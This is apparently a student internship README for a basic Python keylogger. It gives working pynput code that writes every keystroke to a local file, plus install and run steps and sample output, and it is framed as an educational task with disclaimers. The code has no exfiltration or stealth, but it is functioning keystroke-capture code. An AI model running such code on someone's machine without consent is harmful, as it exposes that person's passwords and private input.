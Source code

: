 # Task 4 – Keylogger Program

**SkillCraft Technology – Cybersecurity Internship**

## 📌 Objective

Create a **basic keylogger program** in Python that records keystrokes and saves them into a log file. This task is designed for **educational and cybersecurity research purposes only**. It demonstrates how attackers may capture user input and why defensive measures (antivirus, monitoring, secure input handling) are necessary.

⚠️ **Disclaimer:** This program must only be used in a controlled environment for learning. Misuse of keyloggers for unauthorized access is illegal.

---

## ⚙️ Code (Task4_Keylogger_Program.py)

```python
# Basic Keylogger - Task 04
# SkillCraft Technology Internship
# For Educational Purposes Only

from pynput import keyboard

# File where logs will be saved
log_file = "key_log.txt"

def on_press(key):
    try:
        with open(log_file, "a", encoding="utf-8") as f:
            f.write(key.char)
    except AttributeError:
        # Special keys (space, enter, etc.)
        with open(log_file, "a", encoding="utf-8") as f:
            f.write(f" [{key}] ")

def on_release(key):
    # Stop listener with ESC
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    print("Keylogger started. Press ESC to stop.")
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()
    print("Keylogger stopped. Logs saved to", log_file)
```

---

## ▶️ How to Run

1. Install required library:

   ```bash
   pip install pynput
   ```

2. Save the script as **`Task4_Keylogger_Program.py`**

3. Run in terminal or IDE:

   ```bash
   python Task4_Keylogger_Program.py
   ```

4. The program will:

   * Record all keystrokes
   * Save them in `key_log.txt`
   * Stop when the **ESC** key is pressed

---

## ✅ Sample Output

**Console:**

```
Keylogger started. Press ESC to stop.
Keylogger stopped. Logs saved to key_log.txt
```

**key_log.txt file content (example):**

```
Hello [space] World [enter]
```

---

## 📖 Explanation

* Uses **pynput** library to listen to keyboard events.
* Stores characters in a log file (`key_log.txt`).
* Normal keys are recorded directly, while special keys are shown in `[ ]`.
* Pressing **ESC** cleanly stops the logger.

---

## 🔐 Learning Outcome

* Learned how keyloggers capture keystrokes.
* Understood the **ethical and legal implications** of monitoring input.
* Gained practical experience with Python event listeners.

--
